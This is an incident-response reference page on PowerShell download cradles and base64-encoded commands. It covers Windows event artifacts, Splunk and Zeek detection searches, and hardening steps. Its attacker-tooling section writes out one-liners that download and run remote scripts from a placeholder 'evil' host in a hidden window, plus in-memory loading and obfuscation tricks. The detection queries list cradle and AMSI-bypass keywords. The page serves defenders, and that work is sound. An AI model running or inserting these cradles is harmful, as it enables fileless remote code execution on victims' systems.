

# PowerShell Download Cradles & Encoded Commands

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1059.001 (Command and Scripting Interpreter: PowerShell) + T1027 (Obfuscated Files or Information) · **Tactic:** Execution / Defense Evasion · **Last updated:** 2026-09-17
</div>

!!! abstract "Summary"
    PowerShell is the attacker's favourite interpreter because it is signed, everywhere, and can run code **straight from memory** with no file on disk. A "cradle" downloads and executes stage two in one line (`IEX (New-Object Net.WebClient).DownloadString(...)`); encoding (`-EncodedCommand`) and obfuscation hide the intent from casual log review. But **script-block logging (4104)** captures the *decoded* text regardless — so this is one of the best-instrumented techniques if logging is on.

## How the attack works



Common flags: `-nop` (no profile), `-w hidden` (no window), `-ep bypass` (execution policy off), `-enc`/`-e` (base64 UTF-16LE command), `-c` (command). The base64 is **UTF-16 little-endian**, which is why decoded bytes have null bytes between characters.

## Attacker tooling / commands

```text
# Classic cradle
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://evil/a.ps1')"
powershell -e SQBFAFgAIAAoAE4AZQB3...    # base64 of the above (UTF-16LE)

# Variants
IWR http://evil/a.ps1 | IEX
IEX (iwr('http://evil/a') -UseBasicParsing)
[Reflection.Assembly]::Load([Convert]::FromBase64String('...'))   # load a .NET assembly in memory
$b=(New-Object Net.WebClient).DownloadData('...'); [AppDomain]::CurrentDomain.Load($b)

# Obfuscation (Invoke-Obfuscation style)
&('i'+'ex')(...); `-join` tricks; ${e`n`v:...}; format-operator -f
```

## Artifacts left behind

| Where | Artifact | What to look for |
|---|---|---|
| Host **PowerShell/Operational** | **4104** (script block) — the **decoded** text, even for `-enc` | The single best artifact; long blocks, `IEX`, `DownloadString`, `FromBase64String`, AMSI/reflection keywords |
| | **4103** (module/pipeline), **4105/4106** (start/stop) | Additional context |
| Host **Windows PowerShell** (classic) | **400/403/600** — `HostApplication` field holds the full command line | Works even without script-block logging |
| Host Sysmon/Security | **1**/**4688** — `powershell.exe` with `-enc`/`-nop -w hidden`; `Process_Command_Line` | The launcher and its flags |
| Host Defender | **1116/1117** — AMSI detections (`PowerShell/…`) | AMSI scans the decoded buffer at runtime |
| Host | PowerShell console history `ConsoleHost_history.txt` ([Registry keys](../windows/registry-keys.md#program-execution-per-user-unless-noted)); [Prefetch](../windows/prefetch.md) `POWERSHELL.EXE-*.pf` referencing dropped scripts | Interactive commands + referenced files |
| Network | [Zeek `http.log`](../network/zeek/http-log.md) — `powershell`/empty UA fetching `.ps1`/`.txt`; [`dns.log`](../network/zeek/dns-log.md) the lookup; [`ssl.log`](../network/zeek/ssl-x509.md) if HTTPS | The stage-2 pull to C2 |

!!! warning "No 4104? Check logging first"
    If script-block logging is off, `4104` won't exist — but the classic **Windows PowerShell** log `400`/`600` with the `HostApplication` field, plus Sysmon/`4688` command lines, still capture the launcher. Enable script-block logging fleet-wide (`HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging\EnableScriptBlockLogging=1`) — it is the highest-value, lowest-cost Windows logging change you can make.

## Detection

=== "Splunk — decoded script blocks (4104)"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104
    | eval score=0
    | eval score=score+if(match(ScriptBlockText,"(?i)downloadstring|downloadfile|downloaddata|invoke-webrequest|iwr |net\.webclient"),2,0)
    | eval score=score+if(match(ScriptBlockText,"(?i)frombase64string|::load\(|reflection\.assembly|[char]|-join"),2,0)
    | eval score=score+if(match(ScriptBlockText,"(?i)iex|invoke-expression|\. \("),1,0)
    | eval score=score+if(match(ScriptBlockText,"(?i)amsi|bypass|-nop|-w hidden|hidden|virtualalloc|kernel32|shellcode"),2,0)
    | eval score=score+if(len(ScriptBlockText)>1000,1,0)
    | where score >= 3
    | table _time, host, User, score, Path, ScriptBlockText
    | sort - score
    ```

    `4104` gives the decoded script text. Instead of one giant regex, this **scores** each block: download cradles, base64/reflection loading, `IEX`, AMSI-bypass/injection keywords, and sheer length each add points. `where score >= 3` surfaces the suspicious blocks and ranks them, which reads better than a pass/fail match and tunes easily.

=== "Splunk — encoded launcher (command line)"

    ```spl
    index=botsv3 (sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1 Image="*powershell.exe")
                 OR (sourcetype=WinEventLog EventCode=4688 New_Process_Name="*powershell.exe")
    | eval cmd=coalesce(CommandLine, Process_Command_Line)
    | rex field=cmd "(?i)-(?:e|en|enc|encodedcommand)\s+(?<b64>[A-Za-z0-9+/=]{20,})"
    | where isnotnull(b64)
    | eval decoded=replace(base64decode(b64),"\x00","")
    | table _time, host, User, ParentImage, decoded
    | sort 0 _time
    ```

    The `rex` captures the base64 after `-e`/`-enc`; `base64decode` reverses it and `replace(...,"\x00","")` strips the UTF-16 null bytes, giving you the **plaintext command** the attacker tried to hide — often the download cradle itself, with the C2 URL in clear.

=== "Zeek — the stage-2 fetch"

    ```bash
    zeek-cut -d ts id.orig_h host uri user_agent resp_mime_types < http.log \
      | grep -iE 'powershell|(^|\t)-\t' | grep -iE '\.(ps1|txt|dat)\b|x-dosexec'
    ```

    Cradles fetch stage two over HTTP, often with a `powershell` or empty user agent, pulling a `.ps1`/`.txt` or a disguised executable. Pivot the `uid` into [`conn.log`](../network/zeek/conn-log.md) and check [`dns.log`](../network/zeek/dns-log.md) for the domain.

## Response

Decode and read the script block (the `4104`/decoded-launcher output) to understand what was fetched and done, then extract and block the **C2/staging URL and domain**. Hash and hunt any file stage two dropped ([Amcache](../windows/amcache.md)/[files.log](../network/zeek/files-log.md)). Because cradles often lead straight to a beacon, follow into [Beaconing & C2](../network/beaconing-c2.md) and credential access. Preserve PowerShell logs and console history. Harden — this technique is where logging pays off most: enable **script-block logging** and **module logging** fleet-wide, run PowerShell in **Constrained Language Mode** via WDAC/AppLocker, keep **AMSI** enabled (it scans the decoded buffer), consider removing PowerShell v2 (no AMSI, no 4104), and alert on `-enc`/`-w hidden`/`DownloadString` continuously.

## References

- [MITRE ATT&CK — T1059.001](https://attack.mitre.org/techniques/T1059/001/) · [T1027](https://attack.mitre.org/techniques/T1027/)
- [Microsoft — About PowerShell script block logging](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows)
- [Red Canary — PowerShell threat detection](https://redcanary.com/threat-detection-report/techniques/powershell/)
- Pages: [Phishing delivery](phishing-delivery.md) · [Beaconing & C2](../network/beaconing-c2.md) · [Event logs](../windows/event-logs.md) · [Security searches](../splunk/security-searches.md)
